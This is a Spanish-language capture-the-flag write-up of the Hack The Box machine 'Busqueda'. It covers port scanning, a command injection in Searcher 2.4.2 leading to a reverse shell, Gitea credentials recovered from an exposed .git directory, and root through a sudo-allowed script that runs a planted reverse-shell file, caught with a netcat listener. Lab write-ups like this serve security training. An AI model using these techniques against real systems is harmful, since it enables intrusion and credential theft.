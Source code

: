 # Hack The Box - Busqueda Writeup

## Introducción

Busqueda es una máquina de Hack The Box que se enfoca en la explotación de vulnerabilidades de permisos, escalada de privilegios y manipulación de servicios en un entorno Dockerizado. En este writeup, detallaré cada paso que tomé para comprometer la máquina, incluyendo el uso de herramientas como nmap, whatweb, y sudo, así como técnicas de escalada de privilegios a través de la ejecución remota de comandos.

---

## Paso 1: Reconocimiento

El primer paso fue realizar un escaneo con nmap para identificar puertos abiertos y servicios disponibles en la máquina. Ejecuté el siguiente comando:

nmap -p- -sV -T4 10.10.11.208 -v -v10 -sT --min-rate 50000


El resultado mostró los puertos abiertos:

- **22/tcp** - SSH
- **80/tcp** - HTTP

### Análisis de la página web

Con el servicio HTTP en ejecución, utilicé **whatweb** para obtener más información sobre la tecnología de la página:

whatweb 10.10.11.208


La respuesta indicó un redireccionamiento a `http://searcher.htb`, lo que me llevó a agregar esta entrada en el archivo `/etc/hosts`:

echo "10.10.11.208 searcher.htb" | sudo tee -a /etc/hosts


Al acceder a `http://searcher.htb`, encontré una página simple que ofrecía dos motores de búsqueda. Tras investigar más a fondo, identifiqué una vulnerabilidad de **inyección de comandos arbitrarios** en la aplicación Searcher 2.4.2.

---

## Paso 2: Explotación de la vulnerabilidad de Inyección de Comandos

Utilicé la siguiente prueba de concepto (PoC) para inyectar comandos arbitrarios:

./script.sh http://searcher.htb 10.10.14.3


Esto me permitió ejecutar un **reverse shell** en el servidor. Posteriormente, estabilicé la shell con:

script /dev/null -c /bin/bash export TERM=xterm


Luego, presioné `CTRL+Z`, escribí `stty raw -echo;fg` y recuperé la shell estabilizada.

---

## Paso 3: Escalada de Privilegios

Al ejecutar **linpeas**, encontré un directorio `.git` en `/var/www/app/.git`. Esto me permitió obtener credenciales para acceder a un repositorio privado de Gitea en `http://gitea.searcher.htb`.

Al revisar la configuración del repositorio, encontré las siguientes credenciales de Gitea:

- **Usuario**: `cody`
- **Contraseña**: `jh1usoih2bkjaspwe92`

Con estas credenciales, inicié sesión en Gitea y obtuve más información sobre el entorno.

---

## Paso 4: Identificación de Comandos Permitidos por Sudo

Ejecuté el siguiente comando para verificar qué comandos podía ejecutar como el usuario `svc` con privilegios de **sudo**:

sudo -l


Esto mostró que el usuario `svc` podía ejecutar el siguiente comando como root:

/usr/bin/python3 /opt/scripts/system-checkup.py *


---

## Paso 5: Análisis de la herramienta `system-checkup.py`

Al inspeccionar el script `system-checkup.py`, observé tres opciones disponibles:

- **docker-ps**: Lista los contenedores Docker en ejecución.
- **docker-inspect**: Inspecciona un contenedor Docker específico.
- **full-checkup**: Ejecuta un chequeo completo del sistema.

Ejecuté el comando **docker-ps** y vi que había contenedores Docker en ejecución, incluyendo uno de Gitea y otro de MySQL.

Para explorar el comando **docker-inspect**, utilicé el siguiente formato:

sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' gitea


El comando devolvió un JSON con detalles sobre el contenedor de Gitea, lo que me permitió ver que el contenedor estaba configurado con ciertas variables de entorno, incluyendo una contraseña para la base de datos MySQL.

---

## Paso 6: Escalada de Privilegios Final

Al revisar el script, descubrí que el comando **full-checkup** ejecutaba el script `full-checkup.sh`. Aprovechando esto, creé un reverse shell en el archivo `full-checkup.sh` y lo cargué en una ubicación de escritura dentro del contenedor Docker.

Escuché en un puerto:

nc -lvnp 4444


Finalmente, ejecuté el siguiente comando para ejecutar el chequeo completo:

sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup


Esto me dio acceso a una shell de root en el servidor.
